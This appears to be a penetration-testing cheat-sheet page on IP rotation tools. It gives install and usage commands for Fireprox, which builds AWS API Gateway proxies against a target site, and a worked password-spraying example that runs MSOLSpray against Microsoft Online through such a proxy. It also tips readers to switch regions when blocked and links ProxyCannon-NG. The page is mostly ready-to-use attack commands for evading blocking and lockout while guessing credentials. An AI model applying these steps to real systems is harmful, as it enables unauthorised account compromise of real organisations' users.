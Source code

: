 # IP rotation Tools

## Fireprox

Note: change the region if you get blocked

### Install

```csharp
git clone https://github.com/ustayready/fireprox
cd fireprox virtualenv -p python3 . 
source bin/activate 
pip install -r requirements.txt 
```

### Usage

* Create the remote endpoint

```csharp
python fire.py --access_key <AWS_KEY> --secret_access_key <AWS_SECRET> --region <REGION> --url <TARGET SITE> --command create
```

### Destroy&#x20;

* Once finished, delete the endpoint

```csharp
python fire.py --access_key <access_key_id> --secret_access_key <secret_access_key> --region --a
pi_id <API ID>  --command destroy
```

### Password Spraying example

* Create an endpoint using fireprox

![](<../../.gitbook/assets/image (81).png>)

* Create an user list

![](<../../.gitbook/assets/image (295).png>)

* Load MSOLSpray module and execute it using the userlist, a password and the proxy url :

```
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password WrongPass123 -URL https://llm9mzll40.execute-api.eu-west-1.amazonaws.com/fireprox/
```

![](<../../.gitbook/assets/image (308).png>)

* cleanup&#x20;

```csharp
python fire.py --access_key $AWS --secret_access_key $KEY --region eu-west-1 --api_id  llm9mzll40 --command destroy
```

### resources

{% embed url="https://github.com/ustayready/fireprox" %}

## ProxyCannon-NG

{% embed url="https://github.com/proxycannon/proxycannon-ng" %}

